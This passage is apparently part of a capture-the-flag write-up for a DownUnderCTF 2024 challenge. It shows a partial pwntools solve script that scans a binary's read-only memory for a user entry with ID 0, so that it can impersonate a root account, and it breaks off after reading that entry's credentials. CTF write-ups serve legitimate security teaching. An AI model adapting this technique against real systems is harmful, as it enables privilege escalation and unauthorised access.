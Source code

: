 And full script:

??? success "solve.py"
    ```py
    from pwn import *
    
    context.binary = elfexe = ELF('./app') 
    libc = elfexe.libc 
    
    context.log_level = 'warn'
    
    arguments = []
    if args['REMOTE']:
        remote_server = '2024.ductf.dev' 
        remote_port = 30022  
        io = remote(remote_server, remote_port)
    else:
        io = process([elfexe.path] + arguments)
    
    # start scan of memory at base address of the application
    module_start = 0x400000
    # we only interested in readonly memory (16 bytes padding for safety as user structure is 24 bytes long)
    module_end = 0x404000 - 24
    
    # iterate over memory addresses
    for i in range(module_start, module_end):
        # read value stored at i (unpack convertes from little endian byte array into int)
        addr = unpack(elfexe.read(i, 8))
        # if value i is address in range module_start..module_end
        # then read value that i is pointing to - its user ID, if user ID is 0 then we found good address
        # to use as fake user entry
        if module_start < addr < module_end and unpack(elfexe.read(addr, 8)) == 0:
            fake_root_entry = i
            break
    
    # use fake user entry that we found calculate user account details
    fake_account_address = unpack(elfexe.read(fake_root_entry, 8))
    fake_account_id = unpack(elfexe.read(fake_account_address, 8))
    fake_account_username = elfexe.read(fake_account_address + 8, 8)
    fake_account_password = elfexe.read(fake_account_address + 16, 8)
    